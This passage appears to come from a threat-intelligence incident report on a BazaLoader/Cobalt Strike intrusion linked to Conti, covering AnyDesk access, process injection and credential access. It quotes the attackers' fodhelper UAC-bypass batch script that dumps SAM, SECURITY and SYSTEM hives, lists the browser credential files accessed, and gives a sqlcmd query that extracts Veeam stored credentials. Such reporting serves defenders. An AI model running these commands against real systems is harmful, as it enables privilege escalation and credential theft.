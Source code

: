 This password also matches one from the leaked Conti manuals back in August.


From the Anydesk logs, we can also see the Client-ID and the IP used to access the clients. Logs can be found at %programdata%\AnyDesk\ad_svc.trace


# Defense Evasion
The threat actors made use of process injection through-out the intrusion. The BazaLoader malware injected into an Edge browser process, as observed by the discovery activity, and Cobalt Strike DLL’s activity.





Cobalt Strike processes were also observed injecting into various other processes.





# Credential Access
Threat actors performed dumping of SAM, SECURITY and SYSTEM registry hives using a batch script named “fodhelper_reg_hashes.bat”.

Contents of fodhelper_reg_hashes.bat are as follows:
- reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\sam c:\ProgramData\sam.save" /f
- reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f fodhelper.exe
- reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\security c:\ProgramData\security save" /f
- reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f fodhelper.exe
- reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "reg.exe save hklm\system c:\ProgramData\system.save" /f
- reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f fodhelper.exe
- reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1

They also performed enumeration of the web browser information using more.



The following files were accessed:
- Users\<>\AppData\Local\Microsoft\Edge\User Data\Default\Login Data
- Users\<>\AppData\Local\Microsoft\Edge\User Data\Default\Cookies
- C:\Users\<>\AppData\Local\Temp\edge-cookies.json

Using a well known technique documented on the Veeam backup forum, the threat actor managed to decrypt passwords used by Veeam. The encryption method used by Veeam is Data Protection API/DPAPI.

All the activity was done using RDP on the server with backups.

Dump the credentials using sqlcmd.exe to base64 passwords.
"C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\130\Tools\Binn\sqlcmd.exe"  -S localhost,51341 -E -y0 -Q "SELECT TOP (1000) [id],[user_name],[password],[usn],[description],[visible],[change_time_utc]FROM [VeeamBackup].[dbo].[Credentials];"
